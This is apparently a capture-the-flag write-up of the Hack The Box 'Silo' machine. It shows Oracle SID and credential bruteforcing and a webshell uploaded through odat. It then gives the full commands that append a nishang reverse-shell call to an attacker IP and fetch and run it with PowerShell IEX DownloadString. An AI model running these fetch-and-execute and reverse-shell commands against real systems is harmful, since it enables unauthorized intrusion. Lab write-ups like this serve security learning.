








# 10 - Oracle


# SID bruteforce


# Credential bruteforce 

I followed all the steps on [this](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener) hacktricks article but couldn't find anything useful except for a couple of SIDs. There is another tool [odat](https://github.com/quentinhardy/odat) mentioned at the end of the article. It's a lot powerful than any of the other tools. Release files work  out of the box no need to compile or anything like that.





# We got a default username and password


# Code execution through file upload



Connection options:
*  -s SERVER                                  server
*  -p PORT                                    port (Default 1521)
*  -U USER                                    Oracle username
*  -P PASSWORD                                Oracle password
*  -d SID                                     Oracle System ID (SID)
*  --sysdba                                   connection as SYSDBA # gives us privileges 


utlfile commands:
*  --putFile remotePath remoteFile localFile  put a file to the remote database server


Note: I didn't realize its true power, we could have uploaded a reverse shell executable and run it through odat to gain root because with sysdba it executes as root.  Instead of executing our shell as root let's go ahead and execute our shell as the IIS user.


# Our webshell is uploaded 



Let's upgrade it to a reverse powershell

```
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ locate Invoke-PowerShellTcp
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1
/opt/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/opt/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 4444" >> Invoke-PowerShellTcp.ps1 
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We are ready to download and  invoke our reverse shell now, let's execute the following line of code at cmdasp.aspx

```bash
powershell IEX (New-Object Net.WebClient).DownloadString('http://$IP/Invoke-PowerShellTcp.ps1')
```


# Here we see the  request


# And finally powershell is connected back to us

